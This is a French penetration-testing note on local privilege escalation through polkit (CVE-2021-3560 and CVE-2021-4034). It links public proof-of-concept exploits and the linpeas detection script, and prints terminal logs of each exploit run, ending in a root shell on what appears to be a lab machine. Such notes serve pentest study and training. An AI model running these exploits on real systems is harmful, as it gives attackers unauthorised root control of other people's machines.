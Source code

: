 # PE : polkit

## CVE-2021-3560

Vulnérabilité permettant à un attaquant d'élever ses privilèges localement sur de multiples distributions, même les plus récentes.

Cette vulnérabilité est détectable avec la version du 6/2/2022 de `linpeas` : [https://github.com/carlospolop/PEASS-ng/releases/download/20220206/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220206/linpeas.sh)

Cette vulnérabilité est exploitable avec le PoC suivant : [https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)

Comme indiqué dans l'explication du PoC, il peut-être nécessaire de relancer de multiple fois celui-ci car la vulnérabilité repose sur un _timing_ précis.

### Exemple

```
[dwight@paper ~]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using sudo - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]# 
```

### Source

[https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

## CVE-2021-4034

Vulnérabilité permettant à un attaquant d'élever ses privilèges localement sur de multiples distributions, même les plus récentes.

Cette vulnérabilité est détectable avec la version du 9/2/2022 de `linpeas` : [https://github.com/carlospolop/PEASS-ng/releases/download/20220209/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220209/linpeas.sh)

Cette vulnérabilité est exploitable avec le PoC suivant : [https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)

### Exemple

```
# gcc poc-pwnkit.c -o poc-pwnkit                                               
# id  
uid=1000(alan) gid=1000(alan) groupes=1000(alan),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),132(scanner),142(kaboxer)               
# ./poc-pwnkit 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),132(scanner),142(kaboxer),1000(alan)
```
